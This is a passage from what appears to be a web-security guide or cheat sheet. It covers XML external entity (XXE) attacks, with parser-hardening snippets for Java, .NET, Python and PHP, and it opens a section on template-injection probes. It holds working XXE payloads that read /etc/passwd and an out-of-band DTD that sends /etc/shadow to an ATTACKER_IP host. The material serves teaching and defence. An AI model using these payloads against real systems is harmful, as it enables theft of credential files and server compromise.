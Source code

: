 ```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

### Out‑of‑band XXE

`sample.dtd`

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://ATTACKER_IP/?%file;'>">
%all;
```

Payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://ATTACKER_IP/sample.dtd">
<data>&send;</data>
```

#### Mitigation (language snippets)

_Java_

```java
DocumentBuilderFactory f = DocumentBuilderFactory.newInstance();
f.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
f.setExpandEntityReferences(false);
```

_.NET_

```csharp
var settings = new XmlReaderSettings
{
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver   = null
};
```

Use `defusedxml` in Python and disable external entities in PHP (`libxml_disable_entity_loader()`).

---

## 4  Server‑Side Template Injection (SSTI)

Identify the engine by sending a maths test:

|Engine|Probe|Expected|
|---|---|---|
|Jinja2|`{{7*7}}`|`49`|
|Twig|`{{7*'7'}}`|`49` or error|
|Pug|`#{7*7}`|`49`|
